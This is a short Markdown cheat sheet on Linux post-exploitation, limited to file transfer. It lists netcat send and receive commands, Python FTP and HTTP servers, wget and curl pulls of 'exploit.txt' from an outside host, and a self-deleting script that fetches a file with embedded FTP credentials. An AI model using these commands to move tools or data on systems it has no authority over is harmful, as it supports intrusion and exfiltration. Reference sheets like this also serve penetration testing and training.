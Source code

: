 # __Kapi Linux Post Exploitation Cheatsheet__
## __1. Objective__
To maintain knowledge of:
* Post exploitation on Linux machines
* This cheat covers only through pivoting but not covering trace

## __2. Post Exploitation - Linux__
### __2.1 Files Transfer__
__Netcat__
* Receiver
```
nc -l -p 1234 > out.file
```

* Sender
```
nc -w 3 <destination> 1234 < out.file
```

__FTP__
* FTP server using Python
```
apt-get install python-pyftpdlib

python -m pyftpdlib -p 21
```

* Download file from FTP server

```
wget ftp://192.168.2.50:21/file

wget --user='user' --password='P@ssw0rd' ftp://192.168.2.1:21/myfolder/exploit.txt

curl ftp://192.168.2.1:21/myfolder/exploit.txt --user user:P@ssw0rd -o exploit.txt

echo '#!/bin/bash' > ftp ;echo 'HOST=192.168.2.1' >> ftp ;echo 'USER=user' >> ftp ;echo 'PASSWORD=P@ssw0rd' >> ftp ;echo '' >> ftp ;echo 'ftp -inv $HOST <<EOF' >> ftp ;echo 'user $USER $PASSWORD' >> ftp ;echo 'cd /myfolder' >> ftp ;echo 'get exploit.txt' >> ftp ;echo 'bye' >> ftp ;echo 'EOF' >> ftp; chmod +x ftp; ./ftp; rm -f ftp
```

__HTTP__
* HTTP server using Python
```
python -m SimpleHTTPServer 8081
```

* Download file from HTTP server
```
wget http://192.168.2.50:8081/file -O exploit.txt

curl http://192.168.2.50:8081/file -o exploit.txt
```
